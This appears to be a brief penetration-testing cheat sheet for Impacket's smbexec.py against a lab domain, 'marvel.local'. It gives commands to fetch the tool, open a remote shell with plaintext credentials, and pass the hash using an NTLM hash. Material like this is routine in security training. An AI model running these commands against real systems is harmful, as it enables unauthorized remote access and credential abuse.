 **This tool is part of impacket suite.**
```python
python3 /usr/share/doc/python3-impacket/examples/smbexec.py marvel.local/groot:Password1@$TARGET
```
or
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbexec.py
```

#### Shell with smbexec.py
When we have valid credentials, we can simply login to target.
```python
smbexec.py marvel.local/fcastle:Password1@$TARGET
```

#### Passing the hash
When we have username and hash, we can login to target.
```python
smbexec.py marvel.local/fcastle@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```
